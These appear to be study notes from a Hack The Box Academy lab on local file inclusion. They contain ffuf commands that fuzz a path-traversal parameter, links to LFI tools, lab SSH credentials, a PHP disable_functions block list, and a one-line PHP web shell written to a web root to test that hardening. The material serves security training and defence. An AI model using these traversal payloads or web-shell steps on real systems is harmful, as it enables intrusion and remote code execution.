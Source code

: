 ```ffuf
ffuf -w /home/kali/Desktop/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
#### Server Logs/Configurations
```ffuf
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```
## LFI Tools
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[LFiFreak](https://github.com/OsandaMalith/LFiFreak)
[liffy](https://github.com/mzfr/liffy)
# File Inclusion Prevention
## SSH
User: htb-student
Password: HTB_@cademy_stdnt!
```ssh
ssh htb-student@<IP>
```
###### Modify Apache php.ini
`/etc/php/7.4/apache2/php.ini`
```ssh
sudo vim /etc/php/7.4/apache2/php.ini
```
###### **Replace**
```apache2
disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```
###### Restart Apache
```ssh
sudo service apache2 restart
```
###### Root Privilege
```ssh
sudo su -
```
###### Inject RCE
```ssh
echo "<?php system('id'); ?>" > /var/www/html/shell.php
```
###### Error.log
```ssh
sudo tail -f /var/log/apache2/error.log
```
###### HTTP Browser
```url
http://STMIP/shell.php
```
